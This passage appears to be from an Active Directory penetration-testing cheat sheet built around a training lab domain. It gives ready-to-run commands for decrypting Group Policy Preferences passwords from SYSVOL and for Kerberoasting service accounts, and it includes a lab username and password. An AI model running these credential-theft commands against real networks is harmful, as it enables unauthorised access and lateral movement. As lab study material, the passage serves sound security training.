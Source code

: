 ### Finding Credentials in Group Policy (GPP)

* **What it does:** A legacy feature allowed admins to set local user passwords via Group Policy Preferences (GPP). These passwords were AES-encrypted with a publicly known key. These commands search for and decrypt those passwords.
* **When to use it:** When enumerating the `SYSVOL` share, which is readable by all authenticated users.
* **Example Workflow:**
    ```shell
    # Manually browse SYSVOL for policy files
    ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts

    # Find the cpassword in an XML file and decrypt it
    gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE

    # Automate the search across the domain with CrackMapExec
    crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
    ```

-----

## Phase 3: Privilege Escalation & Lateral Movement

With a map of the environment, it's time to move. This phase involves exploiting misconfigurations, abusing Kerberos, and leveraging user privileges to gain higher levels of access and move from machine to machine. 🧗

### Kerberoasting

This is a classic attack that targets **user accounts running services** (e.g., MSSQL, web servers). These accounts have a Service Principal Name (SPN) set. Any authenticated user can request a Kerberos service ticket (TGS) for any service. Part of this ticket is encrypted with the service account's NTLM hash. An attacker can capture this ticket and crack it offline to reveal the service's password.

* **Step 1: Find Kerberoastable Users (Accounts with SPNs)**
    ```powershell
    # From Windows, using PowerView
    Get-DomainUser -SPN | Get-DomainSPNTicket -Format hashcat
    ```
    ```shell
    # From Linux, using Impacket (will also perform Step 2)
    GetUserSPNs.py INLANEFREIGHT.LOCAL/wley
    ```
